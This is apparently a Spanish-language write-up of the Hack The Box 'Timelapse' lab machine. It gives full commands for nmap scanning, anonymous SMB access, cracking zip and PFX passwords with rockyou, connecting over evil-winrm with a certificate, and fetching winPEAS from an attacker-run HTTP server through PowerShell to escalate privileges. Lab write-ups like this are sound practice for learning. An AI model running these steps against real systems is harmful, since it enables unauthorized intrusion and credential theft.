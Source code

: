 ```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#reconocimiento">Reconocimiento</a>
- <a href="#escaneo">Escaneo</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
  
  Esta maquina es una de las faciles que ofrece HTB (hack the box), para ir comenzando en el mundo del pentest, es bueno ir documentando los pasos que se han tomado para lograr capturar las flags de objetivo de las maquinas

## [](#header-2)<a id="about_monero">Reconocimiento</a>

### [](#header-3)PING
En esta etapa, verificamos la conectividad con la maquina, escaneo de puertos y reconocimiento de servicios activos en los servicios.
**PING** Comunmente se utiliza un ping para verificar la comunicacion con la maquina a la que se realizara la prueba, pero el ping en linux esta en un loop infinito, hasta que se corta el proceso del comando. Es por ello que utilizaremos un ping discreto:
```S
ping -c 2 10.10.11.152
```
<img src="posts/images/Timelapse/ping_discreto.png" alt="Ping discreto">

## [](#header-2)<a id="escaneo">Escaneo</a>

### [](#header-3)NMAP
**NMAP** Esta herramienta es utilizada por los administradores de redes para hacer un escaneo rapido y dependiendo de sus parametros de configuracion, profundizar en la busqueda de informacion. 
*Nota* Es importante no depender de esta herramienta ya que el escaneo es agresivo y en un entorno controlado, se pueden activar alarmas de intruision.
Para esta maquina, utilizaremos el siguiente comando:
```S
nmap -vvv -Pn -sCV -T4 -p0-65535 --reason -oN Timelapse.nmap 10.10.11.152
# -T4 o T5 para la velocidad de escaneo 
# -p0-65535 para una búsqueda en todos los puertos
# -vvv para visualizar las tareas que va completando(Esto es útil, por si llegamos a reconocer algún servicio explotable)
# -p0-65535 Para establecer el rango de puertos de busqueda
# -sCV es la combinacion de los comandos sC que es para el escaneo con scripts por default de nmap y sV que es para sondear los puertos abiertos
# -oN es la salida en el formato que establezcamos que comunmente es .nmap o podria ser en un .xml
# -O es para la deteccion del Sistema Operativo 
```
Buscaremos si existen vulnerabilidades registradas en el sistema con la herramienta nmap y los scripts específicos de análisis para el protocolo samba:
La ruta especifica y filtrado del servicio que usaremos para la búsqueda y visualizarlos es:
```S
ls /usr/share/nmap/scripts | grep smb-vuln
```
El comando nos muestra que es vulnerable, y se cuenta con un CVE, con el cual habría que desarrollar una herramienta donde se use el buffer overflow y ejecutar un exploit diseñado para el sistema operativo.

## [](#header-2)<a id="gain_access">Gain Access</a>

### [](#header-3)Domain integration
**Integracion en dominio del servidor** Despues del escaneo, es posible descubrir algunos dominios del servidor, para poder establecer una comunicacion correcta con los servicios nos integraremos en el servicio. Modificando el archivo que se encuentra en /etc/hosts para poder editarlo y relacionar la IP de la maquina con el dominio encontrado. 
*Nota* A lo largo de la prueba, se pueden encontrar mas dominios asociados a la ip y sera necesario regresar a este archivo para modificarlo.
```S
nano /etc/hosts
```

Notamos que el puerto 445 esta expuesto, normalmente usado para el servicio smb de Windows y a continuacion utilizaremos otras herramientas para verificarlo.

Ocuparemos la herramienta enum4linux para obtener algunos usuarios por el servicio de smb
```S
enum4linux -a 10.10.11.152
```

Con el siguiente comando, descubriremos algunos directorios compartidos que no tienen contrasenas
```S
smbclient --no-pass --list=10.10.11.152
```
Para conectarnos al rpc y obtener mas informacion

```S
rpcclient -U "" -N 10.10.11.152
```

Aplicaremos el siguiente comando para intentar establecer un acceso a un directorio en el que no tenemos acceso

```S
smbclient -U 'ANONYMOUS LOGON' -N \\\\10.10.11.152\\Share
```
Obtuvimos acceso, y ahora podemos descargar un archivo .zip con contrasena y dentro que un archivo cifrado dentro del directorio Dev
- Usamos el comando get para descargar el archivo .zip 

Usaremos una herramienta llamada frackzip, la cual se utiliza para descomprimir archivos zip, y para abrirlos por fuerza bruta, en este caso usaremos una wordlist que tiene integrado Kali:
```S
sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip”
```
La contraseña encontrada es supremelegacy, al encontrar contraseñas que parecen haber sido creadas por personas y no por algún algoritmo, nos damos cuenta de que la complejidad de las contraseñas no es alta.

Para romper con la seguridad de estos archivos, utilizaremos una herramienta obtenida de:
https://github.com/crackpkcs12/crackpkcs12.git
Para su instalación, utilizaremos los comandos:

```S
sudo apt install libssl-dev
sudo ./configure
make    
```
El comando que utilizaremos, para volver a usar la wordlist, es:
```S
crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx
```
La contraseña encontrada es thuglegacyy, esta la usaremos para ingresar en el servicio y generar una llave privada llamada priv.key y cert.crt

El comando que utilizaremos para establecer la conexion con el servicio, utilizar las credenciales obtenidas y despues ingresar la contrasena del archivo .pfx que anteriormente obtuvimos, por medio de openssl es:
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
```

Después será necesario generar un certificado cl e igualmente lo podemos generar con openssl
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
#ingresamos nuevamente la contraseña thuglegacyy
```
A continuacion, estableceremos la coneccion, usando nuestra prv.key y el certificado cert.crt con:
```S
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
``` 
Una vez dentro, navegamos al Escritorio, y con el comando 'type' podremos leer la flag 

## [](#header-2)<a id="privilege_scalation">Escalamiento de privilegios</a>
Despues del paso anterior, utilizaremos la siguiente herramienta para automatizar un poco el proceso de recopilacion de informacion y poder escalar privilegios mas rapido. ases/download/20220410/winPEASx64.exe

Abrimos un servicio http para poder descargarnos el archivo desde la maquina
```py
python3 -m http.server 80
``` 
Con PowerShell, ejecutamos el siguiente comando para hacer la descarga
```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.153/winPEASx64.exe -OutFile winPEASx64.exe
``` 
Ejecutamos la herramienta y ahora sabemos que en el servicio de PowerShel, que se encuentra en la siguiente ruta, es vulnerable y quizas aqui encontremos credenciales para escalar privilegios.
```S
Users/legacyy/AppData/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
``` 
Nos descargamos el archivo de historia de comandos y lo visualizamos

Historial de comandos, tambien hay algo interesante, en la parte de as a plain text nos muestra una contrasena y un usuario en texto plano

LDAP es un protocolo de acceso para los servicios del directorio activo, y es el que utilizaremos para continuar navegando en la maquina intentando escalar los privilegios

Leemos la ultima bandera, y habremos terminado la maquina

